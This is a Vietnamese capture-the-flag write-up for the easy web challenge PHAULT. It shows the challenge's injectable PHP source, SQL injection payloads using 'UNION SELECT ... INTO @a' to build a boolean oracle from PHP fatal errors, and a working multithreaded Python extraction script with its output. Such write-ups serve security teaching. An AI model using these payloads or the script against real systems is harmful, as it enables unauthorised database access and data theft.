



# Write-up Chi Tiết: `PHAULT` — PwnSec CTF 2026

- **Tên bài:** `PHAULT`
- **Thể loại:** Web Exploitation / SQL Injection
- **Tác giả:** `CANAS`
- **Mức độ:** Easy
- **Flag:** `pwnsec{0e2de77060a05e91}`

---

## 📑 Mục Lục
1. [Bước 1: Khảo sát ứng dụng & Nhận diện mục tiêu](#bước-1-khảo-sát-ứng-dụng--nhận-diện-mục-tiêu)
2. [Bước 2: Phân tích mã nguồn và Nhận diện bẫy Anti-Timing](#bước-2-phân-tích-mã-nguồn-và-nhận-diện-bẫy-anti-timing)
3. [Bước 3: Khám phá lỗ hổng PHAULT (PHP Fatal Error qua INTO @var)](#bước-3-khám-phá-lỗ-hổng-phault-php-fatal-error-qua-into-var)
4. [Bước 4: Xây dựng Boolean Oracle nhị phân](#bước-4-xây-dựng-boolean-oracle-nhị-phân)
5. [Bước 5: Lập trình Script khai thác đa luồng & Thu thập Flag](#bước-5-lập-trình-script-khai-thác-đa-luồng--thu-thập-flag)
6. [Tổng kết & Kiến thức cốt lõi](#tổng-kết--kiến-thức-cốt-lõi)

---

## Bước 1: Khảo sát ứng dụng & Nhận diện mục tiêu

Khi bắt đầu thử thách `PHAULT` trên PwnSec CTF platform:
- Tên bài: `PHAULT` (thể loại Web, độ khó Easy).
- Mô tả:
  ```text
  slop slop go away Come again another day Be the person that you fear Slop slop go away -Fat Mesh
  - CANAS
  ```
- Thử thách cung cấp một instance chạy dịch vụ web qua cổng HTTP.



---

## Bước 2: Phân tích mã nguồn và Nhận diện bẫy Anti-Timing

Truy cập trực tiếp vào trang web thử thách, ta được server hiển thị mã nguồn PHP đầy đủ của file `index.php`:

```php
<?php
$START = microtime(true);
ob_start();
register_shutdown_function(function () use ($START) {
    $remaining = 2.0 - (microtime(true) - $START);
    if ($remaining > 0) {
        usleep((int)($remaining * 1000000));
    }
}); // no timing attack!!
mysqli_report(MYSQLI_REPORT_OFF);
$db = new mysqli("127.0.0.1", "user", "user", "chall");
echo highlight_file(__FILE__, true);
if (isset($_GET["id"])) {
    $sql = "SELECT username FROM users WHERE id = " . $_GET["id"];
    $res = $db->query($sql);
    if (!$res) {
        die("ill try to tell him, dw");
    }
    $row = $res->fetch_row();
    echo 'ill try to tell him, dw';
}
?>
```

### Điểm bất thường trong luồng thực thi:
1. **Lỗ hổng SQL Injection rõ ràng:**
   `$sql = "SELECT username FROM users WHERE id = " . $_GET["id"];`
   Tham số `id` được nối trực tiếp vào câu lệnh SQL mà không qua bất kỳ khâu lọc hay prepared statement nào.
2. **Ẩn hoàn toàn dữ liệu trả về:**
   - Nếu câu truy vấn bị lỗi (`!$res`): In ra `'ill try to tell him, dw'`.
   - Nếu câu truy vấn thành công: `$row = $res->fetch_row();` được gọi nhưng biến `$row` không bao giờ được in ra màn hình! Thay vào đó, server tiếp tục in `'ill try to tell him, dw'`.
   - Hai trường hợp hoàn toàn đồng nhất về nội dung văn bản.
3. **Bẫy chống Timing Attack (`register_shutdown_function`):**
   ```php
   register_shutdown_function(function () use ($START) {
       $remaining = 2.0 - (microtime(true) - $START);
       if ($remaining > 0) {
           usleep((int)($remaining * 1000000));
       }
   }); // no timing attack!!
   ```
   - Đoạn shutdown hook này tính toán thời gian chạy của script và ép nó phải ngủ bù (`usleep`) để tổng thời gian phản hồi **luôn tối thiểu là 2.0 giây**.
   - Nếu người giải dùng kỹ thuật Blind SQLi dựa trên thời gian (`SLEEP(3.5)`):
     - Mỗi truy vấn mất từ 3.5 đến 5.5 giây.
     - Dễ gây nghẽn kết nối, làm MySQL trong container bị quá tải hoặc crash (đúng như tác giả mỉa mai từ "slop" trong phần mô tả).

$\rightarrow$ Câu hỏi đặt ra: **Làm sao để trích xuất dữ liệu mà không dựa vào thời gian (Timing) và không có Output phản hồi?**

---

## Bước 3: Khám phá lỗ hổng PHAULT (PHP Fatal Error qua `INTO @var`)

Tên bài toán: **PHAULT** $\rightarrow$ Đây là cách chơi chữ giữa **PHP** và **FAULT** (tức làm phát sinh **Fatal Error** trong PHP).

Hãy quan sát kỹ cách PHP xử lý đối tượng kết quả:
```php
$res = $db->query($sql);
if (!$res) {
    die("ill try to tell him, dw");
}
$row = $res->fetch_row();
```

Khi sử dụng mệnh đề gán biến session trong MySQL: `INTO @var`:
```sql
1 UNION SELECT 2 WHERE (<condition>) INTO @a
```

### Cơ chế phản ứng của MySQL và PHP:

#### Trường hợp 1: Điều kiện `<condition>` là ĐÚNG (TRUE)
- Câu lệnh `UNION` tạo ra **2 dòng kết quả** (dòng `1` từ bảng `users` và dòng `2` từ `SELECT 2`).
- Trong MySQL, mệnh đề `INTO @var` bắt buộc kết quả chỉ được phép có tối đa 1 dòng. Khi có từ 2 dòng trở lên, MySQL quăng lỗi:
  ```text
  ERROR 1172 (42000): Result consisted of more than one row
  ```
- Khi câu lệnh SQL bị lỗi, hàm `$db->query($sql)` trả về giá trị **`false`**.
- Biểu thức `if (!$res)` trở thành `true`, kích hoạt hàm `die("ill try to tell him, dw")`.
- Script dừng lại an toàn $\rightarrow$ **Không có lỗi Fatal Error nào xuất hiện!**

#### Trường hợp 2: Điều kiện `<condition>` là SAI (FALSE)
- Nhánh `UNION` không trả về dòng thứ hai. Kết quả chỉ có duy nhất **1 dòng** (dòng `1`).
- Mệnh đề `INTO @a` thực thi thành công mỹ mãn!
- Trong chuẩn giao thức MySQL và extension `mysqli` của PHP: Câu truy vấn `SELECT ... INTO @var` không trả về tập bản ghi (`mysqli_result`) mà trả về gói tin thành công (OK packet). Do đó, hàm `$db->query($sql)` trả về kiểu dữ liệu boolean **`true`**!
- Vì `$res === true`, điều kiện `if (!$res)` là sai. Script tiếp tục thực thi dòng tiếp theo:
  ```php
  $row = $res->fetch_row();
  ```
- Trong PHP 8, việc gọi một phương thức trên một biến kiểu boolean (`bool(true)->fetch_row()`) sẽ kích hoạt ngoại lệ nghiêm trọng không thể bắt được:
  ```text
  Fatal error: Uncaught Error: Call to a member function fetch_row() on bool in /var/www/html/index.php:19
  ```
- Vì server cấu hình `display_errors = On`, thông báo `Fatal error` sẽ được in thẳng ra giao diện HTML!



---

## Bước 4: Xây dựng Boolean Oracle nhị phân

Từ phát hiện trên, ta thu được một **Boolean Oracle** hoàn hảo, chuẩn xác 100%:

$$\text{Oracle}(cond) = \begin{cases} 
\text{TRUE} & \iff \text{Response KHÔNG chứa chữ "Fatal error"} \\
\text{FALSE} & \iff \text{Response CÓ chứa chữ "Fatal error"}
\end{cases}$$

### Thực hiện trinh sát cơ sở dữ liệu qua Oracle:
1. **Kiểm tra sự tồn tại của bảng `flag`:**
   ```sql
   1 UNION SELECT 2 WHERE ((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database() AND table_name='flag')>0) INTO @a
   ```
   $\rightarrow$ Kết quả: **TRUE** (Bảng `flag` tồn tại trong database).

2. **Kiểm tra cột trong bảng `flag`:**
   ```sql
   1 UNION SELECT 2 WHERE ((SELECT COUNT(*) FROM information_schema.columns WHERE table_name='flag' AND column_name='flag')>0) INTO @a
   ```
   $\rightarrow$ Kết quả: **TRUE** (Cột chứa dữ liệu có tên là `flag`).

3. **Xác định độ dài Flag:**
   ```sql
   1 UNION SELECT 2 WHERE ((SELECT LENGTH(flag) FROM flag)=24) INTO @a
   ```
   $\rightarrow$ Kết quả: **TRUE** (Độ dài toàn bộ chuỗi cờ là 24 ký tự).

Định dạng cờ là: `pwnsec{` (7 ký tự) + 16 ký tự hex + `}` (1 ký tự).
Ta cần tìm 16 ký tự ở các vị trí từ `8` đến `23`.

---

## Bước 5: Lập trình Script khai thác đa luồng & Thu thập Flag

Vì đây là phương pháp Error-Based (dựa trên sự xuất hiện của `Fatal error`), ta có thể gửi nhiều request đồng thời mà không làm crash MySQL. Sử dụng `concurrent.futures.ThreadPoolExecutor` với 16 luồng để tìm toàn bộ 16 ký tự song song qua thuật toán tìm kiếm nhị phân (Binary Search).

Lưu script sau vào file `solve_phault.py`:

```python
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor

urllib3.disable_warnings()

# Thay thế bằng host của instance đang chạy
HOST = "965759d3620573db.chal.ctf.ae"
URL = f"https://{HOST}/"

def oracle(cond):
    """
    Gửi payload kiểm tra điều kiện:
    - Nếu cond là TRUE  => 2 dòng => Lỗi MySQL INTO @var => die() sạch sẽ => 'Fatal error' KHÔNG có.
    - Nếu cond là FALSE => 1 dòng => INTO @var trả về bool(true) => fetch_row() lỗi Fatal error.
    """
    s = requests.Session()
    s.verify = False
    p = f"1 UNION SELECT 2 WHERE ({cond}) INTO @a"
    try:
        r = s.get(URL, params={"id": p}, timeout=10)
        return "Fatal error" not in r.text
    except Exception as e:
        return False

def find_char(pos):
    """Dò tìm ký tự tại vị trí pos bằng Binary Search mã ASCII"""
    lo, hi = 32, 126
    while lo < hi:
        mid = (lo + hi) // 2
        cond = f"ASCII(SUBSTRING((SELECT flag FROM flag),{pos},1))<={mid}"
        if oracle(cond):
            hi = mid
        else:
            lo = mid + 1
    ch = chr(lo)
    print(f"[+] Ký tự vị trí {pos:2d}: {ch}")
    return pos, ch

print("[*] Đang trích xuất 16 ký tự flag (vị trí 8 đến 23) với 16 luồng song song...")
with ThreadPoolExecutor(max_workers=16) as ex:
    futures = [ex.submit(find_char, pos) for pos in range(8, 24)]
    results = dict(f.result() for f in futures)

inside = "".join(results[pos] for pos in range(8, 24))
flag = f"pwnsec{{{inside}}}"

print("\n" + "="*45)
print(f"[🎉] FLAG THU ĐƯỢC: {flag}")
print("="*45)

# Bước xác thực cuối cùng: Kiểm tra trực tiếp flag hoàn chỉnh trên database
is_valid = oracle(f"(SELECT flag FROM flag)='{flag}'")
print(f"[*] Xác thực cờ trên Database: {is_valid}")
```

Chạy script trên Terminal:



Kết quả in ra:
```text
[+] Ký tự vị trí 17: 0
[+] Ký tự vị trí 18: a
[+] Ký tự vị trí 23: 1
[+] Ký tự vị trí 14: 7
[+] Ký tự vị trí 11: d
[+] Ký tự vị trí 13: 7
[+] Ký tự vị trí 16: 6
[+] Ký tự vị trí 20: 5
[+] Ký tự vị trí 21: e
[+] Ký tự vị trí  8: 0
[+] Ký tự vị trí 15: 0
[+] Ký tự vị trí 22: 9
[+] Ký tự vị trí 12: e
[+] Ký tự vị trí 19: 0
[+] Ký tự vị trí  9: e
[+] Ký tự vị trí 10: 2

=============================================
[🎉] FLAG THU ĐƯỢC: pwnsec{0e2de77060a05e91}
=============================================
[*] Xác thực cờ trên Database: True
```

$\rightarrow$ **Flag:** `pwnsec{0e2de77060a05e91}`

---

## Tổng kết & Kiến thức cốt lõi

1. **Hiểu rõ cơ chế Anti-Timing:** Shutdown hook với `usleep` là kỹ thuật phòng vệ cổ điển chống lại các công cụ scan tự động như SQLMap. Đừng cố chấp tấn công bằng Timing Attack khi tác giả đã cố tình chặn đường này.
2. **Khai thác sự khác biệt kiểu dữ liệu của `mysqli`:** Khi câu lệnh SQL không trả về resultset (như `SELECT ... INTO @var`, `INSERT`, `UPDATE`), `mysqli_query` sẽ trả về `true`. Việc mã nguồn giả định `$res` luôn là object `mysqli_result` và gọi `$res->fetch_row()` là một lỗ hổng logic nghiêm trọng.
3. **Chuyển hóa Blind SQLi thành Error-Based:** Bằng cách điều khiển số lượng dòng trả về trong mệnh đề `INTO @var`, ta ép ứng dụng phải lựa chọn giữa hai trạng thái: Kết thúc bình thường (khi lỗi MySQL) hoặc Bị Fatal Error (khi MySQL trả về boolean), tạo ra một kênh giao tiếp nhị phân tốc độ cao.
